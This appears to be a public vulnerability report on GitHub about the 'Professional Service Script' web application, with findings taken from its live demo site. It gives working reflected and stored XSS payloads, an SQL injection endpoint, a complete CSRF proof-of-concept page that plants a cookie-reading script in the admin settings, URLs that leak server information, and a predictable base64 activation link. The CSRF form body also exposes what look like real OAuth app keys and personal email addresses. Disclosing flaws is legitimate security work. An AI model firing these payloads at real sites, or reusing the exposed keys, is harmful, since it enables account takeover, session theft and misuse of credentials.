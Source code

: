 ### Professional Service Script- the lastest version - SQL Injection/Reflect-XSS/Stored-XSS/Arbitrary-Binding/CSRF/Sensitive-Data-Leak

Well,  when I pentest the official demo site of Readymade Video Sharing Script, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

```
http://ordermanagementscript.com/demo/professional-service/admin/bannerview.php?view=27%27%22%3E666%3Cimg%20src=x%20onerror=console.log(document.cookie)%3E666%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/xss1.png)


##### Stored-XSS 


```
http://ordermanagementscript.com/demo/professional-service/admin/general_settingupd.php
```

POST parameters:

```
------WebKitFormBoundary2ZjWQDBIsgNhKq3e
Content-Disposition: form-data; name="website_title"

Professional Service'"><svg/onload=alert(123)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/xss2.png)


#### SQL Injection:

##### sqli1
```
http://ordermanagementscript.com/demo/professional-service/admin/review.php?id=70
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/sqli.png)



#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/ordermanagementscript.com\/demo\/professional-service\/admin\/general_settingupd.php", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundary2ZjWQDBIsgNhKq3e");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"website_title\"\r\n" + 
          "\r\n" + 
          "Professional Service\'\"\x3e\x3csvg/onload=alert(document.cookie)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"website_keyword\"\r\n" + 
          "\r\n" + 
          "\x3cp\x3eProfessional Service\x3c/p\x3e\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"website_url\"\r\n" + 
          "\r\n" + 
          "http://ordermanagementscript.com/demo/professional-service\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"commonword\"\r\n" + 
          "\r\n" + 
          "Professional\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"admin_add\"\r\n" + 
          "\r\n" + 
          "\x3cp\x3eCompanyName,\x3c/p\x3e\r\n" + 
          "\x3cp\x3ecompany address,\x3c/p\x3e\r\n" + 
          "\x3cp\x3eLocation.\x3c/p\x3e\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"admin_email\"\r\n" + 
          "\r\n" + 
          "vsjayan@gmail.com\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"paypal_email\"\r\n" + 
          "\r\n" + 
          "inet.prabhu1716@gmail.com\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"currency\"\r\n" + 
          "\r\n" + 
          "USD\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fb_url\"\r\n" + 
          "\r\n" + 
          "https://www.facebook.com/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"tw_url\"\r\n" + 
          "\r\n" + 
          "https://twitter.com/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"linkedinurl\"\r\n" + 
          "\r\n" + 
          "https://in.linkedin.com/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"gplusurl\"\r\n" + 
          "\r\n" + 
          "https://plus.google.com/explore\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"Img\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"banner_img\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fbappid\"\r\n" + 
          "\r\n" + 
          "320789545076739\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fbkey\"\r\n" + 
          "\r\n" + 
          "0e0e841f7583ea866e11839f599c0ffc\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fbreurl\"\r\n" + 
          "\r\n" + 
          "http://ordermanagementscript.com/demo/professional-service/fblog_new/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"gappid\"\r\n" + 
          "\r\n" + 
          "966064226677-t3jl59r6llcg54dou9lro2kak0pf5n4c.apps.googleusercontent.com\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"gkey\"\r\n" + 
          "\r\n" + 
          "rSiRaC22JZqyv9xUWJjoXZjV\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"greurl\"\r\n" + 
          "\r\n" + 
          "http://ordermanagementscript.com/demo/professional-service/google_plus/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"g_submit\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>


```

This vulnerability does not need evil attacker to login into the user panel.

#### Sensitive-Data-Leak

For example, we can get sensitive info like absolute-path here.
##### Leak1

```
http://ordermanagementscript.com/demo/professional-service/admin/review_userwise.php?id=72%27S
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/info_leak1.png)
##### Leak2

```
http://ordermanagementscript.com/demo/professional-service/service-list/category/22/house-cleaning
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/info_leak2.png)

#### Arbitrary-Binding

I found when we're register the account, we should verify the email to activate the account.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/arbitrary-binding1.png)

But the url which send to the email is predictable. For example, the url the system send to my email is:
```
http://ordermanagementscript.com/demo/professional-service/login/?uid=NTA=
```
After Base64 decode:
```
http://ordermanagementscript.com/demo/professional-service/login/?uid=50
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/arbitrary-binding2.png)

So it's easy to predict or enum the uid to activate our account, then we can bind the account to any email-account, even if it's not exist.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/arbitrary-binding3.png)

In a word, it's a arbitrary-Binding bug here.